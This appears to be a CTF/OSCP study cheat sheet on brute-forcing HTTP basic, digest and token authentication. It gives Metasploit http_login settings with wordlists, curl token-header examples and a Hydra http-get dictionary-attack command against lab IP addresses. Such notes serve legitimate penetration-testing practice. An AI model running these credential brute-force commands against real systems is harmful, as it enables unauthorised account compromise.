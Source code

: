 # Authentication
## Basic authentication
### curl
<https://github.com/jai-the-seeker/CTF-OSCP/blob/master/utilities/curl.md#http-basic-authentication>
### metasploit 

`http_login` module
```sh
use auxiliary/scanner/http/http_login
set RHOSTS 192.165.34.3
set USER_FILE /tmp/users
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set AUTH_URI /poc/
exploit
```
## Digest Authentication
<https://github.com/jai-the-seeker/CTF-OSCP/blob/master/utilities/curl.md#digest-authentication>
## Token Authentication
Hydra and metasploit `http_login` module doesn’t support token authentication.
We have to set the token in headers for token auth to work.
```sh
curl -H 'Authorization: Token <token>' 192.183.171.3
```
We have to write a custom wrapper around this command. In the script, we will rely on the fact
that on using the correct token, we will get something else than "Unauthorized Access".

You can refer this script <https://github.com/jai-the-seeker/CTF-OSCP/blob/master/scripts/bash_scripts.md#authorization-token>

After performing the dictionary attack we will get the password, which can be used to set the token in the headers
```sh
# -H, --header <header/@file> Pass custom header(s) to server
curl -H 'Authorization: Token 123123123' 192.186.248.3
```

## Hydra
### http-get
This is the basic example
```sh
hydra -L unix_users.txt -P passwords.txt 192.148.69.3 http-get /
```
Options : `-l` single LOGIN name or `-L` FILE having list of LOGIN names,
`-p` single PASSWORD  or `-P` FILE having list of passwords,
`-t` Number of threads per target (default: 16)
